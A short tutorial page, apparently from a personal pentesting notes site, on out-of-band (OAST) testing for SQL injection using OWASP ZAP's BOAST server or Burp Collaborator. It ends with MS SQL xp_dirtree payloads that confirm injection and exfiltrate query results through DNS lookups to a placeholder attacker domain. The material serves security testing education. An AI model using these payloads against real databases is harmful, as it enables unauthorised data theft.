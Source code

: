 ```yaml
---
layout: default
title: My way of testing SQL Injection - Part 2 - OAST Testing
parent: SQL Injection
nav_order: 2
---
```


### What is OAST testing?

OAST testing is Out of band Application Security Testing where we send a payload to the server that causes an interaction with an external system we have control over, that sits outside the target domain. 

### Why is OAST testing is important?

You can directly exfiltrate data via the out-of-band channel, for example by placing the data into a DNS lookup for a domain that you control. 

### How OAST testing works?

Let us consider we have a domain, we own. If anyone send DNS lookup for that domain, we will be able to see the details for that request. So let use now consider, we created a payload that will send the DNS lookup along with the details from the target system to our domain , we will be able to see the details in the dump. 

### OAST testing using ZAP

#### Setting up ZAP for OAST testing

*   Download the latest OWASP ZAP.
*   Go to tools → Options
*   You can search for OAST.
*   In OAST options screen, go to BOAST tab
*   You can see the server URI and Polling frequency inputs. 
*   You can set up your own server .Server URI address should point to the URI that will be used for registrations and polling.A valid URI will include the scheme, the host, the port, and the `/events` endpoint. The host must be running a working instance of BOAST. An example of a valid URI is: [`https://example.com:1337/events`.](https://example.com:1337/events.)
*   click on register.
*   You will notice that a new entry has been added to _Active Servers_ table. You can copy the payload with `ctrl` + `C` to use it in your attacks.
*   ZAP will now poll this server at the frequency you set and report all interactions (DNS, HTTP) with the payload URI in the OAST tab in the main screen.

Similar to ZAP, you can use Burpsuite collaborator which comes with [Burp Suite Enterprise Edition](https://portswigger.net/burp/enterprise) and [Burp Suite Professional](https://portswigger.net/burp/pro) 

#### Testing 

Now you have the payload. For example,  nbtgsasdaspgvy6glznbom2lj5q.odiss.eu .

If you go to the browser and enter this URL [http://abcd.nbtgsasdaspgvy6glznbom2lj5q.odiss.eu](http://abcd.nbtgsasdaspgvy6glznbom2lj5q.odiss.eu) , then you will see the entry in the OAST tab which says you got the get request for the URL http://abcd.nbtgsasdaspgvy6glznbom2lj5q.odiss.eu

### Usage of OAST in SQL injection

Now let us consider, your target server using MS DB. You can confirm the vulnerability by using this payload `exec master..xp_dirtree '//DOMAIN-NAME/a'`

If you want to ex-filtrate the data, you can use the payload `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.DOMAIN-NAME/a"')`
